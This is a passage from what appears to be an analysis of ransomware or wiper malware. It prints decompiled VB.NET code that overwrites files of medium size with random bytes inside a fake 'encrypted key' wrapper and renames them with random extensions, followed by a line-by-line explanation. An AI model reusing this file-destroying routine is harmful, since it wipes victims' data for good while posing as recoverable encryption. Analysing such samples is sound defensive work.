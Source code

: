 This code combines AES encryption for the file's data and RSA encryption for the AES key.

### Medium-Sized Files Encrypting Process
```vbnet
Dim string2 As String = Encoding.UTF8.GetString(Program.random_bytes(Convert.ToInt32(fileInfo.Length) / 4))
File.WriteAllText(files(i), Program.randomEncode(string2))
File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))

Public Shared Function random_bytes(length As Integer) As Byte()
	Dim random As Random = New Random()
	length += 1
	Dim array As Byte() = New Byte(length - 1) {}
	random.NextBytes(array)
	Return array
End Function

Public Shared Function randomEncode(plainText As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(plainText)
	Return String.Concat(New String() { "<EncyptedKey>", Program.Base64EncodeString(Program.RandomString(41)), "<EncyptedKey> ", Program.RandomString(2), Convert.ToBase64String(bytes) })
End Function

Public Shared Function Base64EncodeString(plainText As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(plainText)
	Return Convert.ToBase64String(bytes)
End Function

Public Shared Function RandomString(length As Integer) As String
	Dim stringBuilder As StringBuilder = New StringBuilder()
	For i As Integer = 0 To length - 1
		Dim c As Char = "abcdefghijklmnopqrstuvwxyz0123456789"(Program.random.[Next](0, "abcdefghijklmnopqrstuvwxyz0123456789".Length))
		stringBuilder.Append(c)
	Next
	Return stringBuilder.ToString()
End Function
```
#### File Manipulation

1.  **Generating a Random String Based on File Size**:
    
    -   `Dim string2 As String = Encoding.UTF8.GetString(Program.random_bytes(Convert.ToInt32(fileInfo.Length) / 4))`: This line converts one quarter of the file's size (`fileInfo.Length / 4`) into an array of random bytes, and then into a UTF-8 string.
2.  **Rewriting and Renaming the File**:
    
    -   `File.WriteAllText(files(i), Program.randomEncode(string2))`: Rewrites the file with the content returned by the `randomEncode` method.
    -   `File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))`: Renames the file by adding a new randomly generated extension.

#### String Processing Methods
